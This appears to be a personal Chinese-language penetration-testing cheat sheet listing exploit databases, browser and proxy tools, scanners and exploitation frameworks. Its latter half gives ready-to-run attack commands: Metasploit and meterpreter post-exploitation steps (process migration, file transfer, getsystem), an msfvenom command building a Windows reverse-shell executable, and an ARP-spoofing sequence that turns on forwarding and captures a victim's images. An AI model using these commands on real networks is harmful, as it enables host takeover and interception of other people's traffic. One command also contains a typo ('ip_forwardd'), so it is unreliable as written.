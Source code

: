 # ceshi

---

漏洞发布网站
 
https://www.seebug.org/

https://www.exploit-db.com/

---

Firefox下

    Firebug，调试js，HTTP请求响应观察，Cookie，DOM树观察等；GreaseMonkey，自己改了个Cookie修改脚本，其他同学可以用这款：Original Cookie Injector for Greasemonkey；Noscript，进行一些js的阻断；AutoProxy，翻墙必备；

Chrome下

    F12打开开发者工具，功能==Firebug+本地存储观察等；SwichySharp，翻墙必备；Cookie修改脚本，自己写了一个Chrome扩展（已开源：Cookie利用神器：CookieHacker），其他同学可以自己到Chrome扩展搜个好用的；

前端渗透工具

    

HTTP代理工具

    Fiddler，即可，不用再寻找其他的了，watcher插件漏洞
    
    Burp Suite，HTTP代理，还有爬虫、漏洞扫描、渗透、爆破等功能

漏洞扫描工具

    AWVS，不仅漏扫方便，
    
    Python自写脚本/工具
    
    Nmap，绝对不仅仅是端口扫描,脚本

漏洞利用

    sqlmap，SQL注入利用
    
    Metasploit，主机渗透框架，；
    
    Hydra，爆破必备；

抓包工具

    Wireshark，抓包必备；tcpdump，Linux下命令行抓包，结果可以给Wireshark分析；

大数据平台

    ZoomEye，知道创宇开放的一个网络空间搜索引擎，搜搜组件就知道：ZoomEye（钟馗之眼），可以认为我在广告；SHODAN， 老外开放的一个网络空间搜索引擎，搜搜主机设备就知道：SHODAN – Computer Search Engine；Google，：）

熟练Linux众多命令+Vim

---

# Metasploit

---

search cve:2009 type:exploit app:client

info 展示相关信息

show advanced 列出所有高级配置

check 检车目标是否选定渗透攻击存在相应安全漏洞


---

# Metgetpid

注入进程　migrate 

上传文件  　upload　　

下载文件　　 download 

session -l 列出可用的交互会话

session -i number 选定会话

获取最高权限  sysinfo getsystem 

---
# msfvenom 

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.103 lport=4444 -f exe -o back.exe

---

# Arp

apt install dsniff ssldump

arpspoof -i eth0 -t 目标IP 目标网关IP

echo 1 > /proc/sys/net/ipv4/ip_forwardd

driftnet -i eth0
